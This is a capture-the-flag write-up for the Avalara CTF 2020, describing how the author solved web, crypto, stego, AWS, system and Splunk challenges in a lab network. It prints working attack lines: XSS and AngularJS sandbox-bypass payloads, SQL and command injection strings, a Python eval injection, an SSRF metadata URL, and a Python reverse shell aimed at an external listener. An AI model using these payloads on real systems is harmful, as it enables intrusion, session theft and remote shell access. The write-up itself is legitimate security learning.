


# Avalara CTF 2020
CTF summary for team 1nd1x. These are the flags we captured and how we went about getting them.
Post registration we were given access to a kali instance and the link to the score board. Post registration, we were able to view the challenges. I guess the CTF organizers did not want us to go empty handed so we had a flag on the desktop!

## First things first
RDP into the kali machine is slow. We don't need access to the machine's GUI. So ssh with tunnels to get to the dashboard saved us a lot of time interms of latency. My base machine is a windows laptop, my go to tool over the years has been putty. I set up a tunnel to ```10.105.243.185:8000```. With access to the dashboard sorted out, I claimed the first flag. yay!


## Setup
The challenges were spread across `10.105.242.0/24 and 10.105.243.0/24` nmap should give us an idea of what ports are open on which IP's. There were a whole bunch of challenges, the first task was to map out the IP's and see if we can guess which machine hosts what challenge.

| IP             | Ports         | Challenges                |
| ---------------|:-------------:| :-------------------------|
| 10.105.242.45  | 80			 | Looks like XML            |
| 10.105.242.69  | 443           | forbidden.. API Gateway?  |
| 10.105.242.92  | 80            | XSS angular js 1.4.7?     |
| 10.105.242.99  | 80            | random api                |
| 10.105.242.183 | 80            | library                   |
| 10.105.242.213 | 80            | injection?..              |
| 10.105.242.218 | 80            | Auth                      |
| 10.105.242.236 | 22            | system?                   |
|                | 80            | Auth?                     |
| 10.105.242.245 | 80            | XSS                       |
| 10.105.243.119 | 80            | python/injection?         | 
| 10.105.243.138 | 22            | system?                   |
|                | 80            | Auth?                     |
|                | 443           | auth?                     |
| 10.105.243.141 | 80            | XSS                       |
| 10.105.243.210 | 80            | Auth/Injection? SQL?      |
| 10.105.243.243 | 80            | XML/ XEE?                 |
| 10.105.243.247 | 443           | API gateway?              |
| 10.105.243.254 | 80            | Employee API              |
| 10.105.242.49  | 8000          | Splunk                    |
|                | 8088          | Splunk                    |
|                | 8089          | Splunk/REST               |


I also made a similar list with the Challenges and the flags, so when I found a flag I could match it against a category (XSS/Injection/Auth/Crypto..)
This was the ground work. Sometimes the IP's would change and I would go back to the table and update the IP's. I got this initial list by running nmap on the CIDR's `nmap 10.105.243.0/24`
Some challenges had the IP's mentioned in them so that made it easier to map them out.

## Tools
There are more specialized tools, but I was able to get by with just the basics.
- curl
- dirb
- nikto
- binwalk
- stegsolve
- foremost
- base64
- jq
- strace
- strings
- hydra
- https://gchq.github.io/CyberChef
- firefox web inspector
Most of the tools were already available in kali, i needed to install strace and jq alone. jq was for dealing with json mostly.

## Challenges
### Free Space
This was the first flag I claimed. It was on the desktop.

### Java
We have a `.class` file. The flag is most probablly hidden in the class file. If it is in plain text then `strings` should show us the flag else we may need to decompile the code and see if the flag is b64 encoded or something like that. Luckily for me it was available in plain text. So `strings` gave out the flag.



### Authentication
For every IP which had 80/443 open, I would run `curl` to see what it gave back. In this case `10.105.242.218` gave back a page which mentioned it was auth. `curl -v "http://10.105.242.218"` does not show anything special in the headers.
I made a post to `curl -v "http://10.105.242.218/auth_admin.php"` but that returned `302` a flag and a page `admin_main.php`. Maybe the page is looking for url parameters, so I sent a POST but with `username` and `password` in the query. Yay! another flag. The first two flags were quick, but the **Auth 3** flag took me a while to figure out. I sent a whole bunch of incorrect username/password combinations, but everytime I would getback `unable to read ./ passwords.txt`. I wasnt able to figure this out, so I moved on to other challenges and came back to this latter. I tried `nikto` and it showed me that `passwords.txt` was accessiable. Final flag!


It wasn't all breezy, I failed more often than I succeeded.


### System
Running `curl 10.105.243.138` gave the apache index page. So I ran `dirb "http://10.105.243.138"` to see if any common paths were accessiable. We got a `admin` directory with `index.html` and `robots.txt`. 


Both of them yeilded flags and ssh credentials to login to the machine.


Lets try ssh into the machine, it worked. I tried moving around and trying to see what was visible. It was by accident that I found the `.bash_history`, that gave me two more flags.


`sudo -l` showed that `ctfuser` was allowed to run `/usr/bin/find` and `/usr/bin/nmap` but both files seemed unusually large.


So I copied them over to  the kali box and ran strings on them


There was still one flag **System 8** that was left. I was not able to figure out what it was. It is 300 points so it is unlikely to be more difficult that the previous flags.


I saw some hints around `dockersvc` but it could have just been a decoy or I missed something very obvious.
I also saw that root login was enabled, but I wan't able to crack the root login. Eitherway, I wasn't able to claim **System 8**

### Library
Again, I ran `curl 10.105.242.183` to get started. The code was taking in a `title` parameter which represented the file name and was returning the contents of that file. I thought the flag could be in the files, so I downloaded all the texts and grep'd for flags. No luck!


I wanted to see if the code was constructing a command and executing it on a shell. So I tried this.


Looks like the command is being constructed from the input. `title=example.txt|pwd` gave us `/var/www/html` so we needed to back up three levels.



Then we can cat the flags


### Zip
I tried a couple of options to crack the hash with `john the ripper` but in the end, I just uploaded the zip to an online zip cracking site, it gave me the password in a couple of seconds. I used that and unziped the file to claim the flag
`flag{et_tu_brute?}`

### Crypto
**Crypto 1** looked like shift encoding. I tried `rot13` and I lucked out. If I had'nt then I would have had to go about trying to figure out what the shift was. Luckily I did'nt have to. Got the flag `synt{rapbqvat_vf_abg_rapelcgvba_ohg_bu_jryy} = flag{encoding_is_not_encryption_but_oh_well}`

**Crypto 2** was base64 encoded twice. The `=` sign was my clue, I figured it could be base64. I was able to claim that flag as well `flag{double_the_base64_double_the_fun}`

**Crypto 3** looked like hex. Converting it back to string gave the flag `flag{what_do_the_numbers_mean?}`

**Crypto 4** I did not know, so I figured it was either binary encoding, with `A=1/0, B=1/0` or it was something else. I searched for a block of the cipher text and `bacon` cipher showed up. I gave it a go and `FLAG{DONT_FORGET_THE_UNDERSCORES_AND_CURLY_BRACES}`

**Crypto 5** I could not figure this out. It looked like I needed to guess the 7byte key, and maybe even the IV. I don't know. I need to learn this!

**Crypto 6** I used stegsolve to get the layer with the symbols visible. I needed to know what the font was, so I figured a google reverse image search should take me to the page where these esoteric fonts are defined. But no, everytime I uploaded as section of the font, google would take me to some page defining circles, arcs and tangents.

I don't know for sure, but I think at some point some over enthusiastic engineer at google said, 

*hey you know what! I can train a model that can take an image and tell you what it is, then you can use that information to run a text search for that description. It will be so cool, we will change the world!* 

Anyways, that sucked. So I tried doing some programmy things, like I knew the the image had to say flag{xxxx_xx_xxxx} so I could map the symbols for f/l/a/g then get the english dictionary and search for words that start with *a* don't have *l* all that jazz, I tried that but still was left with a whole bunch of combinations. I could try all combinations, but that was taking too much time.

Snooping time, I looked up Ray and Steve on linked in, and went to their blogs. Yes I know, it is creepy. Long story short, I found the glyphs here https://medium.com/@stevemyrick/bsides-rdu-2019-eversec-ctf-writeup-4d2f5bfb8661.

### AWS
I scanned the public buckets with the given prefix. I found a public bucket.
I used the SSRF url to get to the bucket, I could have just used curl as well.


user data is listed on this url from aws `http://169.254.169.254/latest/user-data` so the SSRF page should be able to get us the user data


**AWS 3** needed some trial and error, so I downloaded the script locally and tried a bunch of combinations and was able to come up with this


it uses the bytes.fromhex to slip through the html escaping.

### Stegnography
I was able to solve most of the stegnography challenges with strings,binwalk, and stegsolve. Running strings on the jpeg files gave the flags, stegsolve helped scan through the layers and binwalk helped with dumping the jpeg file if required. There was one challenge where there was a png QR code. I used a QR code reader to get the flag from that.

### XSS
XSS challenges had the IP's mentioned so that made it earier. These were the payloads for which I was able to claim the flags

```http://10.105.242.245/?q=%3Cscript%3Econsole.log(document.cookie);%3C/script%3E```

```<script>alert(document.cookie);</script>```

Add events to the input text

```http://10.105.243.141/?value=%22%20onfocus=%22alert(document.cookie)%22%20autofocus=%22%22```

```" onfocus="alert(document.cookie)" autofocus=""```	

The app was using templating and there was a reference to angular 1.4.7
so I needed to bypass the angular sandbox. There was a known CVE for sandbox bypass for angular 1.4.7. Angular has since then droped the idea of sandboxes.

```http://10.105.242.92/?q={{%27i%27.constructor.prototype.charAt=%27b%27.concat;$eval(%27exploit=1}%20}%20};%20%20alert(document.cookie)//%27);}}```

```{{'i'.constructor.prototype.charAt='b'.concat;$eval('exploit=1} } };  alert(document.cookie)//');}}```

### Injection
I was able to get SQL injection on `.210`

```curl -v -XPOST "http://10.105.243.210/login.php" --data-urlencode "username=admin" --data-urlencode "password= 1' OR '1' == '1"```

```flag{basic_sql_inj3cti0n}```

**Injection 2/3** were variations of XML XEE vulnerabilities.

Injection 2 was printing the value of `<name>` back on screen so, we can define a malicious DTD which will do the filesystem look up and put the value inside the `<name>` element.

Injection 3 was a similar vulenerability with a catch, there was no value being echoed back to the client. The page simply said "registration successful". For this I needed to trigger an out-of-band execution. I don't have much experience with Burp Suite, but I believe that there is a way in which burp suite can help with OOB. Anyways, I did not try burp suite.
I host my wife's we page. So I crafted this dtd and hosted it there


Then I posted this payload to the server


I got back the contents of `/flag.txt` in b64 encoded form, I was able to claim this flag.

There was a python code injection which I managed to get the flag for as well

```eval("__import__('os').popen('cat /flag.txt').read()")```


**Injection Ray** was fun!

![system]./img/injection-ray.png)

Because of the Ray's devious sense of *fun* I was curious to see the code. So I got the source by passing in this payload

```example.txt |  echo "aW5kZXgucGhwCg==" | base64 -d | xargs cat```

Ray wasn't in the mood for making things easy. If you are wondering, this is what `index.php` looked like.

```
$__='printf';$_='Loading Class/Code NAME';
 $_____='    b2JfZW5kX2NsZWFu';                                                                                                                                                                              $______________='cmV0dXJuIGV2YWwoJF8pOw==';
$__________________='X19sYW1iZGE=';

                                                                                                                                                                                                                                          $______=' Z3p1bmNvbXByZXNz';                    $___='  b2Jfc3RhcnQ=';                                                                                                    $____='b2JfZ2V0X2NvbnRlbnRz';                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                $__=                                                              'base64_decode'                           ;                                                                       $______=$__($______);           if(!function_exists('__lambda')){function __lambda($sArgs,$sCode){return eval("return function($sArgs){{$sCode}};");}}                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    $__________________=$__($__________________);                                                                                                                                                                                                                                                                                                                                                                         $______________=$__($______________);
        $__________=$__________________('$_',$______________);                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 $_____=$__($_____);                                                                                                                                                                                                                                                    $____=$__($____);                                                                                                                    $___=$__($___);                      $_='eNrtWltv4kYUfo/U/8DDSmS11dbY0MSKeMCzsT2GUDDg28sKj4k98VXrgOP8+p7BhpCkrTbqplJX8yFAM/ac+c53LoOQO50GH74Cht3iG83ub7tX+2GLYRcl67L8DeXBpjMd3Vx39uPPnz93r87a5Z1fzvjrx7/OWBw6PxDDVzNdpyeXrt2jnnY97O6nnqL6XWhzZdjh4ODg+DnRJaklBI6xxZolunaVG6p869TxRdM0oWs27forl4qDg4ODg4ODg4Pj/wb+dwYHBwfHz4uuvy43v/e/BhuSB5vuFVeEg4ODg4PjX+HFAwSZUq/tgTBGxtzXrIiIq5BISuKKSbpZKMJaW4V+qt57C2Xn0WbspUkJY8GvlV3gmFXgzMMgTSKsmznMp2v7IWnX6KY1D4mm1q7dSwLNqidU0XwJh54TRb6jlN4yb+zZg8i3V/JxfjEQNvqcjpflmOhG4WfzHN89VDOKiz+q/HSOzmK5F+hKL/iSX05E/GmmGTVGl8dvTOMLFBaFR6OCSNMkQGHsCIFqqWV2snfmLOICZeUYo1GIkSl4dq86uR7OFspjoBu3JLUqX1PvvEVIXYRLjDCdoNHf2bxAlNkbxeD/PdG8AnTeMj3wFwG0NmtHMhKiPUSuuMpxUmWYViGmzO4rDsx3Zis0dDMBnU60HslYnwokkWsP9HPtaQIxJY2dht/L/Zm2DTcFtBnljMvaUXakDl/dC+szyJPYc8It0aLKqOMQLwUZa17k67DXYtToph/029utSJpsQW+6EuWaZHGJtcEO60ri2feFn5LQhdxZperAkG5CIso9kk6TfbzowcaI5UoBNo6+387zZg/NKolofRf3MSUFRtcyxDB17YdHbxH/I19TlHceUoSGs9ELkLKFfI/XoCvkMPYcI2GcNzZwpkrOamjS3CNBTGJXVGtPvwH/jARraulrsuTZ8+17+Dar3+bbYsH8gLoU1UETjwDsmXfANSZ1fztpauzIEbj01w4QW7b2dOGQNwmL/dp2wzHLvTSpfOkmf52bVWj0ygxyJJotBah3FXxbFa2NZ3oc6zpmvKYPgQ06LhRKUvVuLVoCqZWq7VPvoqWzeJuWy/QSaljtNXE2oM9Nv3mO+Qg5DjWrwvo+PerWrE02WgICHrgrMgobvh7bz05SjCLWZwqiyY/j1z0A6plAjN7G09LkHYYeE2irCKtGBL0d6tZIXNuEHPCKjWbFbf++XoMvrmTuIPdDSzeiILVqyJXyrXnxV/E1tGRLdEtgvc9QZTgfTN8Qn2Jg9IQX97NrrPeO6ETyIkJlKZDIbq2b9z66pBj1QzcFnRtt8oP9p97WvCe1fNRipiu1txyguTVVGQ9MR1uIHeRU2xeRCTkI5wmKwwkd0Rlia1ftOXLiP7rcnZ5N7J6W7+VEYns0sX/uT3tWoX2/ziHmpSNafc+GuhGnEcxnzKeD37B/hr/gT8bddfYij1740499CeoDfH/G95BjGcQmHA67V2dn//2PjeH++7wdfbx6y/KTtd+z8MPThudd9tn99bgtfybyfZ+JfB6D82dBb0Lw8epP7L4APw==';

        $___();$__________($______($__($_))); $________=$____();                                                                                                                                                   $________;
```

As if that wasn't enough, the contents of the above code itself contained another block of gziped b64 encoded text. The function calls themselves were b64 encoded, but essentially the code was gunziping the b64 encoded content and then executing it.
So I gunziped the content and decoded it to be greeted with this! God dammit Ray!

```
        $____='printf';$___________='Class/Code NAME Class...';
		$___                                                                            =                 'X19sYW1iZGE='     ;
                                             $______=   'cmV0dXJuIGV2YWwoJF9fXyk7'      ;

$____='base64_decode';                                                                                                                                                                                                   $___________='CnByaW50KCJQbGVhc2Ugc3BlY2lmeSB0aGUgbmFtZSBvZiB0aGUgZmlsZSB0byBvdXRwdXQgdmlhIHRoZSBmaWxlbmFtZSBHRVQgcGFyYW1ldGVyLiBGb3IgZXhhbXBsZTogZmlsZW5hbWU9ZXhhbXBsZS50eHQiKTsKcHJpbnQoIjxwPiIpOwoKcHJpbnQoIjxiPk91dHB1dDo8L2I+PGJyIC8+PGJyIC8+Iik7CgppZihpc3NldCgkX0dFVFsnZmlsZW5hbWUnXSkpCnsKICAgICR0ZW1wZmlsZW5hbWUgPSBzdHJfcmVwbGFjZSgiYCIsICIiLCAkX0dFVFsnZmlsZW5hbWUnXSk7CiAgICAkdGVtcGZpbGVuYW1lID0gc3RyX3JlcGxhY2UoIlwnIiwgIiIsICR0ZW1wZmlsZW5hbWUpOwogICAgJHRlbXBmaWxlbmFtZSA9IHN0cl9yZXBsYWNlKCJcIiIsICIiLCAkdGVtcGZpbGVuYW1lKTsKCiAgICBpZiAoc3RyaXBvcygkdGVtcGZpbGVuYW1lLCAnaW5kZXgucGhwJykgIT09IGZhbHNlKSAKICAgIHsKICAgICAgICBwcmludCgiU29ycnksIG5vIHBlZWtpbmcgYXQgUmF5J3Mgc291cmNlIik7CiAgICAgICAgZXhpdCgpOwogICAgfQoKICAgIGVsc2VpZiAoc3RyaXBvcygkdGVtcGZpbGVuYW1lLCAnKicpICE9PSBmYWxzZSkKICAgIHsKICAgICAgICBwcmludCgiR29vZCB0cnksIGJ1dCBubyBkaWNlLiBIZXJlJ3MgeW91ciBoaW50LCBubyB3aWxkY2FyZHMgYXJlIGFsbG93ZWQuIik7CiAgICAgICAgZXhpdCgpOwogICAgfQoKICAgIGVsc2VpZiAoc3RyaXBvcygkdGVtcGZpbGVuYW1lLCAnPycpICE9PSBmYWxzZSkKICAgIHsKICAgICAgICBwcmludCgiSSBkaWQgc2F5IG5vIHdpbGRjYXJkcy4uLiIpOwogICAgICAgIGV4aXQoKTsKICAgIH0KCiAgICBlbHNlaWYgKHN0cmlwb3MoJHRlbXBmaWxlbmFtZSwgJ1snKSAhPT0gZmFsc2UpCiAgICB7CiAgICAgICAgcHJpbnQoIk5vIHNxdWFyZSBicmFja2V0cyBwbGVhc2UuIik7CiAgICAgICAgZXhpdCgpOwogICAgfQoKICAgIGVsc2VpZiAoc3RyaXBvcygkdGVtcGZpbGVuYW1lLCAnXScpICE9PSBmYWxzZSkKICAgIHsKICAgICAgICBwcmludCgiTm8gc3F1YXJlIGJyYWNrZXRzIHBsZWFzZS4iKTsKICAgICAgICBleGl0KCk7CiAgICB9CgogICAgZWxzZWlmIChzdHJpcG9zKCR0ZW1wZmlsZW5hbWUsICcuLicpICE9PSBmYWxzZSkKICAgIHsKICAgICAgICBwcmludCgiVG9vIGxhdGUhIFJheSBhbHJlYWR5IGZpeGVkIHRoZSBEaXJlY3RvcnkgVHJhdmVyc2FsLiIpOwogICAgICAgIGV4aXQoKTsKICAgIH0KCiAgICBlbHNlCiAgICB7CiAgICAgICAgJGlucHV0ID0gJF9HRVRbJ2ZpbGVuYW1lJ107CiAgICAgICAgJGZpbGUgPSAiL3Zhci93d3cvaHRtbC8iIC4gYmFzZW5hbWUoJGlucHV0KTsKCiAgICAgICAgLy9wcmludCgiPHByZT5CQVNFID0gIiAuIGJhc2VuYW1lKCRpbnB1dCkgLiAiPC9wcmU+Iik7CgogICAgICAgIC8vcHJpbnQoIjxwcmU+JGZpbGU8L3ByZT4iKTsKCiAgICAgICAgJG91dHB1dCA9IHNoZWxsX2V4ZWMoJ2NhdCAnIC4gJGZpbGUgLiAnIDI+JjEnKTsKICAgICAgICBwcmludCgiPHByZT4kb3V0cHV0PC9wcmU+Iik7CiAgICB9Cn0KCg==';

                                                                                                           $______=$____($______);                                        $___=$____($___);                                  $_____=$___('$___',$______);
        $_____($____($___________));
```

Finally, decoding the above b64 text gave the actual source.

```php
print("Please specify the name of the file to output via the filename GET parameter. For example: filename=example.txt");
print("<p>");

print("<b>Output:</b><br /><br />");

if(isset($_GET['filename']))
{
    $tempfilename = str_replace("`", "", $_GET['filename']);
    $tempfilename = str_replace("\'", "", $tempfilename);
    $tempfilename = str_replace("\"", "", $tempfilename);

    if (stripos($tempfilename, 'index.php') !== false) 
    {
        print("Sorry, no peeking at Ray's source");
        exit();
    }

    elseif (stripos($tempfilename, '*') !== false)
    {
        print("Good try, but no dice. Here's your hint, no wildcards are allowed.");
        exit();
    }

    elseif (stripos($tempfilename, '?') !== false)
    {
        print("I did say no wildcards...");
        exit();
    }

    elseif (stripos($tempfilename, '[') !== false)
    {
        print("No square brackets please.");
        exit();
    }

    elseif (stripos($tempfilename, ']') !== false)
    {
        print("No square brackets please.");
        exit();
    }

    elseif (stripos($tempfilename, '..') !== false)
    {
        print("Too late! Ray already fixed the Directory Traversal.");
        exit();
    }

    else
    {
        $input = $_GET['filename'];
        $file = "/var/www/html/" . basename($input);

        //print("<pre>BASE = " . basename($input) . "</pre>");

        //print("<pre>$file</pre>");

        $output = shell_exec('cat ' . $file . ' 2>&1');
        print("<pre>$output</pre>");
    }
}
```
All this for nothing.

### Employees
I relied on `dirb` for employees api. Once I found the `/help` endpoint I tried creating some users.
But the flags were at the `employees/id` and `employees/position` end points. There was also an `/admin?id=` endpoint but I wasn't able to get anywhere with that. I wasn't able to figure out **Employees 3**


### Splunk
Ok! this was hard. I had never used splunk before. I sort of knew what it did but had no first hand experience with it. My chances of getting these flags were slim. I reached out to my friend Sriram. He gave me a crash course on Splunk and some resources to learn the concepts. It appeared that Splunk exposed a REST endpoint on 8089. The default credentials `admin/changeme` did not work (obviously!) but sort of had an inking that the username was `admin`, so that was something. I figured we needed to guess the password.


I ran it and it against the 100k-most-used-passwords-NCSC.txt and got a hit for `admin/admin123`. I logged in, but no flag. I reached out to Steve (pestered him in the middle of the night) he asked me if I had claimed the flag on login. I had not. Steve bounced the machine and there it was! on the notifications list. 
Yay! my first flag. I fiddled around the UI a bit but could not make heads or tails. Time to study!

There was big red notification hint on the login page of Splunk. It linked to a page which spoke about RCE. I knew that was what was needed.
This was the reverse shell. I first tried getting the shell locally.

```socat `tty`,raw,echo=0 tcp-listen:8080```

and ran 

```
kali@kali:~/splunk/app$ cat bin/shell.py
import sys,socket,os,pty

ip="10.105.240.31"
port="8080"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```
I got a shell. I packaged the tar and uploaded it to splunk and waited. No shell. I figured there was something blocking traffic from splunk to the kali box. So I spun up a linode instance on my personal account, and had `socat` listen on 80.

`socat `tty`,raw,echo=0 tcp-listen:80`

I updated the IP in the script and uploaded the app to splunk and waited. I hoped that the firewall won't block traffic going out to the internet on port 80. 30 seconds latter! SHELL!

One flag was readable as the splunk user the other was not. But thankfully, splunk user was on the sudoers list and I was able to claim both flags.

```
flag{welcome_shell}
flag{you_made_it}
```
I did not think I was going to be claiming the splunk flags! I guess I got lucky this time.

### Random
This challenge took me 3 days to figure out that I was wrong all along.
The API was simple, there was a `/random` endpoint. You claimed a flag if you guessed the next random number ranging from 0 to 1000.
The API was in python so I figured that the implementation was a **"Mersenne Twister"** and that the challenge was to guess the state of the random object so that we can predict the next. Boy was I wrong!

First off, I had been overcomplicating this. But in the end I learnt about "Mersenne Twister", internal random state. I spoke to Steve about the challenge to ask him if I was going down a rabbit hole. He said I was overcomplicating it. :) tru dat!

Once I was able to wind back, I thought in terms of, what are the chances of two random number generators generating the same number between 0 and 1000. So if I tried enought number of times I was bound to get a collision. So then I came up with this.


## Wrapup
In the end I was able to claim most of the flags. The CTF also showed me areas where I needed to strengthen my understanding on. The flags I wasn't able to claim were
- **Crypto 5**
- **System 8**
- **Employees 3**

Parting thoughts. Reading the write-up can make it seem like I was claiming flags like pacman. But nothing can be further from the truth. I was able to get from 0 to 12000 points in 3days, but 12000 to 14500 took me 10 days. While I had fun in the event, it more importantly, served as a grim reminder to sheer size of the attack surface for our applications.
